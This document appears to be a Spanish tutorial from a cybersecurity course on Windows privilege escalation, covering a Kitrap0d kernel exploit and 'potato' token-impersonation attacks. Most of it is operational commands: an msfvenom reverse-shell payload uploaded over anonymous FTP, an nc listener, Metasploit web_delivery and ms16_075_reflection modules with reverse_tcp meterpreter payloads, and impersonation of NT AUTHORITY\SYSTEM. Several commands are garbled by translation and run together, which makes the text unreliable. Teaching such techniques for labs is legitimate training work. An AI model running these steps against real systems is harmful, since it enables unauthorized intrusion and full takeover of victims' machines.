 ## **Explotaciones del kernel**

Un Kernel es el componente central del sistema operativo y actúa como un puente entre los componentes de hardware y las aplicaciones de software.

Cuando un sistema operativo se carga en la memoria, el kernel se carga primero y permanece en la memoria hasta que el sistema operativo se apaga nuevamente.

El kernel es responsable de tareas de bajo nivel, como la administración de discos, la administración de tareas y la administración de memoria.

Inicialmente, estos exploits se facilitan una vez que logramos establecernos en nuestro sistema de destino, por lo que después de obtener acceso a través de metasploit (preferiblemente), ejecute esto /post/multi/recon/local_exploit_suggestery verifique si Kitrap0d existe.

### **Explotación Kitrap0d**

Inicialmente crearemos un shell inverso y lo cargaremos en el sistema de destino `msfvenom -p windows/shell_reverse_tcp LHOST=yourIP LPORT=555 -f aspx > myfile.aspx`

> -p = carga útil (aquí un shell inverso simple)
> 
> 
> LHOST = dirección IP actual del sistema
> 
> LPORT = puerto de su elección
> 
> -f = tipo de archivo (a qué tipo de archivo va el sistema para trabajar)
> 
> > = guardar el archivo de salida con un nombre de archivo

de alguna manera cargue este archivo en el sistema de destino. Aquí usamos ftp como ejemplo para cargarftp 10.0.0.1

password is anonymous and then type "put manual.aspx nc -nvlp 555

Vaya a la dirección IP/sitio e invoque la carga útil.

### Potato Attacks

Supongamos que tenemos un shell en la máquina con Windows y después de verificar whoami /priv descubrimos que tenemos privilegios de token de suplantación.

![NoSQL23](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL23.png?raw=true)

Lo que nos ayuda a obtener NT/Autoridad mediante un ataque de papa, entonces se puede hacer lo siguiente:

habrá dos instancias en este punto

> La primera instancia es que debemos tener un pie en el sistema y verificar si el sistema tiene algún privilegio de identidad (figura anterior).
> 
> 
> Es el shell de Metasploit que estamos a punto de trazar.

### En Metasploit:

> usar/exploit/multi/script/web_delivery
> 
> 
> establecer el objetivo como PSH (PowerShell)
> 
> establecer la carga útil comowindows/meterpreter/reverse_tcp

configure LHOST y SRVHOST como su dirección IP.

Ingrese a ejecutar, obtendremos una carga útil, la copiaremos y la pegaremos en la primera instancia donde esté presente el caparazón de apoyo inicial (1.)

![NoSQL24](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL24.png?raw=true)

Pegue el comando anterior en primera instancia.

Después de pegar, ingrese session1 y escriba getprivs

compruebe si es arquitectura x64 o x86 escribiendogetuid

Ejecute `post/multi/recon/local_exploit_suggestery` verifique todos los exploits disponibles que se pueden aprovechar.

`correrwindows/local/ms16_075_reflection`

establecer sesión en 1

establezca LHOST en la ip de kali

configure LPORT en cualquier puerto en el que la sesión 1 no esté escuchando

establecer la carga útil `enwindows/x64/meterpreter/reverse_tcp`

correr

load incognito

![NoSQL25](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL25.png?raw=true)

escriba list_tokens -uy observe **NT AUTHORITY\SYSTEM**

tipoimpersonate_token "NT Authority\SYSTEM"

escriba shellahora somos como Autoridad

En el caso de Labs y boxes, puede haber alguna situación de flujo de datos que se utiliza para ocultar la información de un archivo. En esos casos, podemos usar este blog: [https://blog.malwarebytes.com/101/2015/07/introduction-to -flujos-de-datos-alternativos/](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/)

frases simples podrían ser **dir /R** (para búsqueda recursiva de archivos en el directorio) **más <nombre del archivo que se desea buscar**

### **Referencias:**

> SecWiki/exploits-del-kernel-de-windows: exploits-del-kernel-de-windows Windows平台提权漏洞集合 (github.com)
> 